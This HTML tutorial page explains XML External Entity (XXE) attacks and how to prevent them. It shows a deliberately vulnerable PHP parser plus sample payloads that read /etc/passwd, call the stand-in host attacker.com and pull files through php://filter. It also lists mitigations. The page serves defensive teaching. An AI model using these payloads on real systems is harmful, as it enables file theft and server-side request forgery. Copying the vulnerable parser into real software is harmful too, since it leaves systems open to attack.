 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Guide on detecting and preventing XML External Entity (XXE) attacks. Learn how XXE vulnerabilities work, their impact, and prevention techniques.">
    <meta name="keywords" content="XXE, XML External Entity, Cybersecurity, Security, XML Parsing, Web Security, Server Security">
    <meta name="author" content="Cybersecurity Expert, Isaac Ijuo">
    
</head>
<body>
<header>
<h1>Detecting XML External Entity (XXE) Attacks</h1>
<h2> Author: Isaac Ijuo </h2>
</header>
    
<section>
<h2>What is XML External Entity?</h2>
<p>To understand XML External Entity (XXE) attacks, it is best to first review what XML is.</p>
<p><strong>XML (Extensible Markup Language)</strong> is a markup language designed for structuring and storing data in a format that is both human-readable and machine-readable

Often time, it uses tags to define the structure and content of the data, allowing for easy representation and exchange between systems. XML’s flexibility makes it powerful, but this same flexibility can also introduce vulnerabilities, which hackers could exploit.
</p>
</section>
<section>
<h2>Understanding XXE Vulnerabilities</h2>
<p>An <strong>XXE vulnerability</strong> occurs when an application processes malicious XML input, allowing an attacker to exploit external entities defined in the XML. External entities can be used to access sensitive files, execute server-side request forgery (SSRF), or perform other malicious actions. This vulnerability is commonly found in applications that accept XML input without proper validation.</p>
</section>
<section>
<h2>Exploitation </h2>

An attacker could exploit XXE vulnerabilities via various input points, such as:

- Form fields that accept XML input

- Uploaded XML files

- APIs using XML-based payloads

- Configuration files processed as XML

By injecting malicious XML that references external entities, attackers can compromise the system and potentially access sensitive information, perform denial-of-service (DoS) attacks, or execute remote code.

<section>
<h2>How XML External Entity Works</h2>
<p>The success of an XXE attack depends on how the server’s XML parser handles external entities. Let’s consider an example of vulnerable PHP code:</p>
<pre><code>

<?php
$xml = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xml);
echo $dom->saveXML();
?>

</code></pre>
<p>An attacker could inject the following payload:</p>
<pre><code>
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt; ]&gt;
&lt;foo&gt;&xxe;&lt;/foo&gt;
</code></pre>
</section>

<section>
<h2>Impact of XML External Entity Vulnerabilities</h2>
<ul>
<li><strong>Information Disclosure</strong>: Access to sensitive files, such as configuration files or credentials.</li>
<li><strong>Server-Side Request Forgery (SSRF)</strong>: Abusing the server to make requests to internal or external systems.</li>
<li><strong>Denial of Service (DoS)</strong>: Overloading server resources with malicious XML payloads.</li>
<li><strong>Remote Code Execution (RCE)</strong>:In extreme cases, attackers can execute arbitrary code on the server.</li>
</ul>
</section>

<section>
<h2>Preventing XML External Entity Attacks</h2>
<p>To mitigate XXE vulnerabilities, follow these best practices:</p>
 <ul>
     <li>Disable External Entities: <code>libxml_disable_entity_loader(true);</code></li>
    <li>Use Secure Parsers: Ensure external entities are disabled by default.</li>
    <li>Validate XML Input: Allow only expected content.</li>
</ul>
</section>

Example Payloads for Testing

Here are example payloads to identify XXE vulnerabilities:

Basic XXE Payload:

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>

Blind XXE Payload:

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/xxe.xml"> ]>
<foo>&xxe;</foo>

XXE with PHP Filters:

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<foo>&xxe;</foo>

<h2>Conclusion</h2>

<p>XML External Entity (XXE) attacks exploit vulnerabilities in XML parsers to access sensitive information, perform SSRF, or execute malicious code. Detecting and preventing these attacks is crucial for securing web applications. By disabling external entities, validating input, using secure parsers, and analyzing logs for suspicious patterns, developers and security teams can protect their systems from XXE threats. Regular security assessments and adopting secure coding practices further enhance defense against XXE vulnerabilities.</p>